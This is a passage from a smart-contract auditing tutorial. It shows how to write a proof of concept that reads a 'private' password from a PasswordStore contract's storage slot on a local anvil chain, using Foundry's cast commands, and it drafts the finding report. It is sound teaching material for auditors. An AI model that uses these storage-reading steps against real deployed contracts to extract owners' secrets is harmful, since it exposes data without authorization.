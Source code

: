 ```yaml
---
title: Proof of Code
---
```


_Follow along with this video:_

---

### The report so far:

---

### [S-#] Storing the password on-chain makes it visible to anyone and no longer private

**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.

I show one such method of reading any data off chain below.

**Impact:** Anyone is able to read the private password, severly breaking the functionality of the protocol.

**Proof of Concept:**

**Recommended Mitigation:**

---

### Proof of Code/Concept

Our report is looking great, but the next section, `Proof of Code/Concept`, is imperative. Let's go over how we programmatically prove the claim we're making - that anyone can read the protocol's stored password.

First we need a local chain running.

```bash
anvil
```

> Note: Most PoC's won't require a local blockchain

Next we need to deploy our protocol, fortunately, PasswordStore has a `make` command set up for us. Note that their deploy script is setting the password `myPassword` in the process. Open a new terminal and run the following.

```bash
make deploy
```

Foundry allows us to check the storage of a deployed contract with a very simple `cast` command. For this we'll need to recall to which storage slot the `s_password` variable is assigned.

::image{src='/security-section-3/16-proof-of-code/proof-of-code1.png' style='width: 100%; height: auto;'}

With this consideration we can run the command `cast storage <address> <storageSlot>` like this (_your address may be different_).

```bash
cast storage 0x5FbDB2315678afecb367f032d93F642f64180aa3 1
```

We should receive an output similar to this:

```
`0x6d7950617373776f726400000000000000000000000000000000000000000014`
```

This is the bytes form of the data at `storage slot 1`. By using another convenient Foundry command we can now decode this data.

```bash
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

Our output then becomes:

```
myPassword
```

And we've done it. In a few quick commands we've shown that the data our client is expecting to keep hidden on chain is accessible to anyone. Let's add these steps as proof to our report. Things are getting long, so I've collapsed the report examples going forward!

<details closed>
<summary>Finding Report</summary>
### [S-#] Storing the password on-chain makes it visible to anyone and no longer private
<br>
<br>
**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.
<br>
<br>
I show one such method of reading any data off chain below.
<br>
<br>
**Impact:** Anyone is able to read the private password, severaly breaking the functionality of the protocol.
<br>
<br>
**Proof of Concept:**The below test case shows how anyone could read the password directly from the blockchain. We use foundry's cast tool to read directly from the storage of the contract, without being the owner.

    Create a locally running chain

make anvil

    Deploy the contract to the chain

make deploy

    Run the storage tool

We use 1 because that's the storage slot of s_password in the contract.

    cast storage <ADDRESS_HERE> 1 --rpc-url http://127.0.0.1:8545

You'll get an output that looks like this:

    0x6d7950617373776f726400000000000000000000000000000000000000000014

You can then parse that hex to a string with:

    cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014

And get an output of:

    myPassword

<br>
**Recommended Mitigation:**

</details>

### Wrap Up

We've one more section in our report to fill out, the `Recommended Mitigations`. This is where we get a chance to illustrate our experience and bring value to the process by offering our expert advice on how rectify the problems faced by this vulnerability.

Let's do it.
